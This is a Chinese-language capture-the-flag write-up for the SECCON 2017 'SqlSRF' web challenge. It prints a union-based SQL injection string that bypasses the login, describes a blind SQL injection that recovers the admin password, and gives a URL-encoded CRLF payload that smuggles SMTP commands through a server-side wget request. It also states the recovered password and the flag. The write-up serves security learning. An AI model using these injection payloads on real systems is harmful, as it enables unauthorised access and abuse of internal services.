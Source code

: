 # SECCON CTF QUALS 2017 : SqlSRF

**category** : web

**points** : 400

> The root reply the flag to your mail address if you send a mail that subject is "give me flag" to root.
>
> http://sqlsrf.pwn.seccon.jp/sqlsrf/

## write-up

我們可以看到 index.cgi 的原始碼

這行有 sql injection `"SELECT password FROM users WHERE username='".$q->param('user')."';"`

看原始碼也可以知道他是用 sqlite

他會把 select 出來的東西跟 encrypt(param['pass']) 比較，一樣就可以登入了

另外，如果句選 Remember Me 的話，他會幫你把 encrypt(param['user']) 存在 cookie 裡面，然後幫你解密放在 user 的 input box ( 我們可以加解密任意字>串 )

所以先得到 encrypt('oalieno') = '6102b0591250cea64f303ec4a9c6425f'

user 放 `' union select '6102b0591250cea64f303ec4a9c6425f' -- `

pass 放 `oalieno`

就可以順利登入了

![](https://i.imgur.com/EQqOS9M.png)

在 menu.cgi 我們可以按 `netstat -tnl` 但是不能用 `wget --debug -O /dev/stdout 'http://{}'` ( 需要 admin )

![](https://i.imgur.com/9q6DY8Q.png)

所以我們回過頭來用 sql blind injection 取得 admin 的密碼 ([solve.py](SqlSRF/solve.py))

密碼是 encrypt 過的 ( 長度 32 ) 同樣用 Remember Me 解密

admin password = decrypt(d2f37e101c0e76bcc90b5634a5510f64) = 'Yes!Kusomon!!'

成功用 admin 登入後就可以用 wget 發 request

剛剛用 netstat 可以看到 `127.0.0.1:25` 這台 local 的 SMTP server

直接 wget `127.0.0.1:25` 的話可以看到 SMTP server 會把我們的 http request 的每一行都當成 SMTP 的指令來看

![](https://i.imgur.com/a0Mdg7W.png)

那我們就用 `%0d%0a` 來下 SMTP 指令寄信給 `root`

```
127.0.0.1
HELO oalieno
MAIL From: <xxx@gmail.com>
RCPT To: <root>
DATA
Subject: give me flag
oalieno
.
:25/
```

把上面的東東做 urlencode 就可以了

final payload : `127.0.0.1%0D%0AHELO%20oalieno%0D%0AMAIL%20From%3A%20%3Cxxx%40gmail.com%3E%0D%0ARCPT%20To%3A%20%3Croot%3E%0D%0ADATA%0D%0ASubject%3A%20give%20me%20flag%0D%0Aoalieno%0D%0A.%0D%0A:25/`

然後就收到信了XD

![](https://i.imgur.com/OEwnXKM.png)

但是 flag 也被 encrypt 過，那就同樣用 Remember Me 解密

flag : SECCON{SSRFisMyFriend!}

## other write-ups and resources

* https://bongtrop.github.io/SECCON2017-Writeup/#sqlsrf-400-points
* https://ctftime.org/writeup/8339
* https://ctftime.org/writeup/8331
* https://github.com/p4-team/ctf/tree/master/2017-12-09-seccon-quals/web_sqlsrf
* https://ctftime.org/writeup/8308
